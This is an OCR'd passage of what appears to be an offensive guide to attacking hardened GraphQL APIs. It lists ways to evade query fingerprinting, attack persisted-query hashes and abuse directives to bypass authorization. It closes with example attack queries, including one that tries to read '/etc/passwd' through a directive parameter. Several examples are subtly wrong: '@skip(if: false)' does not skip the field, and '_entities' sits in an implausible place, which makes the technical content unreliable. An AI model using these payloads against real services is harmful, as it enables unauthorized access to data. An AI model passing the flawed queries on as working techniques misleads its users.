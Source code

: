 For hardened GraphQL APIs, try these advanced approaches:

1. **Query fingerprinting evasion**:
   - Modify query structure while preserving functionality
   - Use aliases to rename operations
   - Add/remove whitespace and comments
   - Split complex queries into simpler ones

2. **Persisted query exploitation**:
   - Look for hash-based persisted query implementations
   - Try hash collision attacks
   - Test for hash bypass techniques
   - Use timing attacks to discover valid hashes

3. **GraphQL directive abuse**:
   - Test for insecure custom directives
   - Try using internal directives in unexpected contexts
   - Look for directive-based authorization bypasses
   
   Examples:
   ```graphql
   # 1. Using @skip or @include to bypass access controls
   query {
     sensitiveData @skip(if: false) {
       internalFields
     }
     # Some implementations check auth at the query level but not for skipped fields
   }
   
   # 2. Exploiting real-world custom directives
   query {
     user(id: "admin") {
       # Apollo federation exposes _entities queries that might bypass auth
       _entities(representations: [{__typename: "User", id: "admin"}]) {
         ... on User {
           email
           role
         }
       }
     }
   }
   
   # 3. Directive parameter injection in implementations using dynamic resolvers
   query {
     documents {
       content @transform(expression: "file:///etc/passwd")
     }
   }
   
   # 4. Auth context leakage through directives
   query {
     public {
       data @authenticate
       # In some implementations, @authenticate may store auth context in a way
       # that affects subsequent field resolution
     }
   }
   ```
   
